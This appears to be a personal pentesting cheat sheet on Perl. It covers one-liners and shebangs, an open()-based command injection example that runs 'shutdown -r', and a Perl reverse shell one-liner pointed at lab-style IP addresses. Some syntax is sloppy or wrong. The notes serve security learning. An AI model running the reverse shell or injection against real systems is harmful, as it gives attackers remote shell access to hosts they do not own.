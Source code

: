 # Perl

[Perl](https://www.youtube.com/watch?v=0jK0ytvjv-E) meme to make you laugh, before reading `perl` scripts. As a idiot beanbag Linguist it is not like a human language. [Fireship Explanation for neutrality](https://www.youtube.com/watch?v=74_7LrRe5DI)


Executing command line `perl` scripting requires `-e` flag for executing, without drop to a `perl` environment that does not save to a file:
```bash
perl -e 'your perl goes here'
perl
...
```

Perl scripts require the file extension .pl and can be executed from the command line like other script languages with its own command `perl`
```bash
perl script.pl
```

Linux Script shebang line
```bash
#!/usr/bin/perl
# Then from command line
./script.pl
```

```perl

	# Perl is tab intented

```

 Perl command injection
```perl
# function is vulnerable and can be used to execute commands
open() 
# For example
open(“| shutdown -r |”)
```

Perl Reverse Shell 
```perl
# perl -e 'use Socket;$i="$ENV{10.10.14.52}";$p=$ENV{8000};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

use Socket;$i="$ENV{10.10.10.10}";$p=$ENV{1337};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## References

[haax.fr perl](https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/)
[apache - Perl Code Style Guides](https://cwiki.apache.org/confluence/display/VCL/Perl+Code+Style+Guidelines)
[Perl Poet Interview](https://www.youtube.com/watch?v=0jK0ytvjv-E) 
[Fireship Explanation for neutrality](https://www.youtube.com/watch?v=74_7LrRe5DI)
